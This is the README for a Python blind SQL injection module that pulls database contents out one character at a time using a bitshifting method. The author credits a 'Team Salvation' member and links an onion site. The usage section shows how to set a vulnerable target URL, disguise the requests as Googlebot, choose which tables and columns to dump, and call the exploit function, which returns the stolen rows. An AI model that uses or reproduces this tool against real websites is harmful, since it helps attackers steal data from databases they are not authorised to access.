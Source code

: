 # Blind SQL Injection via Bitshifting

This is a module that performs blind SQL injection by using the bitshifting method to **calculate** chars instead of guessing them. It requires exactly 8 requests per character. Further efficency is possible in some cases with a few modifications.

Method by **Jelmer de Hen** (https://www.exploit-db.com/papers/17073/)

Implementation coded by **Eclipse** of **Team Salvation** (http://ljdbosgro7jj4z7r.onion)

##Usage
```
import blind-sql-bitshifting as x

# Edit this to configure:
x.options

# Example configuration: 

# Vulnerable link
x.options["target"] = "http://www.example.com/index.php?id=1",

# Specify cookie (optional)
x.options["cookies"] = "",

# Specify a condition for a specific row, e.g. uid=1 for admin (1 = no condition)
x.options["row_condition"] = "1",

# Boolean option for following redirections
x.options["follow_redirections"] = 0,

# Specify user-agent
x.options["user_agent"] = "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)",

# Specify table name to dump
x.options["table_name"] = "",

# Specify columns to dump
x.options["columns"] = "col1,col2",

# String to check for on page after successful statement
x.options["truth_string"] = ""
```

Then:

`x.exploit()`

This returns a 2-dimentional array, with each sub-array containing a single row, the first being the column headers.

Example output:

`[['id', 'username'], ['1', 'lol'], ['2', 'lel']]`
